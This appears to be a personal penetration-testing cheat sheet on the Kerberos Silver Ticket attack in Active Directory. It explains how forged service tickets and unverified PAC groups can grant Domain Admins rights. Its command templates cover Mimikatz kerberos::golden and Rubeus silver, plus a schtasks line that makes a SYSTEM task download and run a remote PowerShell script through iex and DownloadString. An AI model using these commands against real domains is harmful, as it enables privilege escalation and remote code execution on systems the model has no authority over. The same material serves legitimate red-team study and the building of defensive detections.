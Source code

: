 ```yaml
---
category: Uncategorized
tags: []
---
```

#mimikatz #schtasks #klist
- STs are encrypted with the service user's key derived from it's password.
- If we have this key, we can forge ST's for any service running under that user. These tickets are called Silver Tickets.
- Way more silent and powerful compared to the Golden Ticket attack because we are not interacting with the Domain Controller. We only interact with the service.
- A trade-off of this attack is that, the persistence duration is less than of the Golden Ticket attack, as the machine account (response for running services like win-rm, smb etc.) usually has a password rotation duration of 30 days.
- The key can be dumped from the lsass process memory or by [Kerberoast](Kerberoast.md), or dumping the entire AD Database (NTDS.dit file)
- The PAC is signed with the `krbtgt`'s account, hence a fake signature is used to create the PAC. The PAC signature is not verified if the the ticket is less than 20 minutes old. We can also add more privilege to the PAC, as it is not verified. For example, we can modify the PAC user group to include the `Domain Admins`. 
### Mimikatz
- Mimikatz can be used to forge silver tickets
```powershell
# Create silver ticket to list shares on the machine
kerberos::golden
	/user:administrator # username for which ST is generated
	/domain:<domain> # fqdn of the domain
	/sid:<sid> # sid of the domain
	/target:<server> # fqdn of the target server
	/service<service> # SPN of the service for which ST will be generated
	/aes256:<key> # aes key of the service account
	/id:<id> /group:<group> # Optional ID and groups
	/ptt # inject the ticket in current session
	# or
	/ticket # save the ticket on disk
	

# Create silver ticket to gain remote execution on the machine.
# set /service:HOST, this allows to schedule tasks on the machine.
kerberos::golden /domain:mydomain.local /sid:<domain-sid> /target:<targetmachine-FQDN> /service:HOST /rc4:<key> /user:Administrator /ptt
# verifiy with klist
klist
# shchedule the malicious task
schtasks /create /S machine.mydomain.local /SC Weekly /RU "NT Authoririty\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex(New-Object Net.WebClient).DonwloadString(''http://ip/file.ps1''')'"
# Run the task
schtasks /Run /S machine.mydomain.local /TN "STCheck"
```
### Rubeus
```powershell
Rubeus.exe
	silver
	/service:<spn> # SPN of the service
	/aes256:<key> # kerberos key of the service account of the above service
	/user:<username> # username for which the service account is created
	/ldap # make ldap queries to fetch details
	/ptt # Inject the key in current process memory
	[/printcmd] # print the rubues command to crate the same ticket with information fetched from ldap
```
### Services
- `HTTP` for WIM-RM
- `cifs` for SMB
- `HOST` for scheduling tasks
- `RPCSS` and `HOST` or WMI